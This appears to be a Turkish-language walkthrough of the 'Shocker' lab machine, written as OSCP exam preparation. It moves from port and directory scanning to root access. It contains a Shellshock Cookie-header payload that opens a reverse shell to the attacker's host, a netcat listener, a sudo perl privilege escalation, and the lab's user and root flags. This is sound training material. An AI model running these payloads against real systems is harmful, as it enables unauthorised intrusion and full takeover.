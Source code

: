 # OSCP_Preparation

Makine IP: 10.129.1.175


 Hemen nmap çalıştırıyorum ve bizi neler bekliyor görmek için sabırsızlanıyorum.

```console
nmap -A 10.129.1.175
```
 
![image](./assets/2.PNG)

Openssh ve Apache'de kullanabileceğim bir açıklık gözüme çarpmadı.

80 portu açık olduğu için sayfayı kontrol edelim.

![image](./assets/1.PNG)

Dirb ile devam etmeye karar verdim.

dirb http://10.129.1.175 

![image](./assets/3.PNG)

Buradaki her şey oldukça standart görünüyor, ancak /cgi-bin kesinlikle kontrol etmek istediğimiz bir şey. Bu, sistem yöneticilerinin yürütülecek komut dosyalarını yerleştirebileceği bir dizindir. Bu, kötüye kullanabileceğimiz php, python, bash, vb. Betikleri burada bulabileceğimiz anlamına gelir. Başka bir gobuster taraması ile bu dizinde daha derine inelim.

```console
dirb http://10.129.1.175/cgi-bin
```

Bir sonuç elde edemediğim için manuel olarak comman.txt wordlistini vererek deniyorum.

```console
gobuster dir -u http://10.129.1.175/cgi-bin -w /usr/share/wordlists/dirb/common.txt -x py,sh,php,js -t 50 
```
![image](./assets/4.PNG)
 
cgi-bin ve Shocker ismi birleşince biraz araştırdığımda shellshock olabileceğini düşündüm.

Cookie: bilgilerini değiştirerek açıklığı istismar edelim. Cookie: değerine bir payload yazılarak hedef sistemden shell alınabilir.

4443 numaralı portta listen modda olan kaliye bağlanıp zafiyetli web serverda reverse shell almamızı sağlayacak payloadı ekleyelim.

 ```console
 curl -H 'Cookie: () { :;}; /bin/bash -i >& /dev/tcp/10.10.14.85/4443 0>&1' http://10.129.1.175/cgi-bin/user.sh 
```

 ```console
 nc -nvlp 4443
```
Shell'i alabildik. Artık user için flag'i okuyabiliriz.

```console
shelly@Shocker:/usr/lib/cgi-bin$ cat /home/shelly/user.txt
```

![image](./assets/5.PNG)

User Flag: 5c7e0c88706ddfb75aca0fd68599cdbd

ilk şey, mevcut kullanıcımızın bir şifre belirlemeden sudo erişimine sahip olup olmadığını görmek için sudo -l çalıştırmaktı.

Perl sudo erişimi ile kullanarak, root olarak /bin/bash işlemini başlatabilir ve root bayrağını elde edebiliriz.

```console
shelly@Shocker:/usr/lib/cgi-bin$ sudo perl -e 'exec "/bin/bash"'
```

![image](./assets/6.PNG)

Root Flag: a73ab4b0055d1f2c59165123450f2be2

